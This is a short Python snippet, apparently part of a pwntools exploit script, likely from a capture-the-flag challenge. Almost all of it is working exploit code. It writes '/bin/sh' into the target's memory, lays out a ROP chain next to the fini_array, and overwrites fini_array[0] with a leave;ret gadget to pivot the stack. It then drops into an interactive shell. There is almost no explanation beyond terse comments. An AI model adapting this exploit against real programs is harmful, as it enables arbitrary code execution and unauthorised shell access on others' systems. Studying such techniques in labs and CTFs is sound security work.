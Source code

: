 ```python
    # | fini_arr 0: addr_of_chain1 | chain 0: leave;ret; | chain 1:pop rdx; pop rsi ret; | ... | chain n | ... | "/bin/sh" | 
    # Firstly wirte chain 1..n, finally chain 0
    
    # write bin sh
    # gdb.attach(io)
    write(io,binsh_addr, "/bin/sh\x00".encode())
    # gdb.attach(io)
    # write chain 1 ... chain n
    for i in range(0, len(chain[8:]), 8):
        end = min(i+8, len(chain[8:]))
        _data = chain[8:][i:end]
        _addr = fini_array + 0x10 + i 
        print(f"chain {i//8+1} at {hex(_addr)}: {_data}")
        write(io, _addr, _data)
    # write chain 0
    chain_start = fini_array + 0x10
    leave_ret_addr = 0x401c4b
    write(io, fini_array, p64(leave_ret_addr)+chain[:8])
    # write leave;ret; to fini_array[0]
    # gdb.attach(io)
    io.interactive()
```

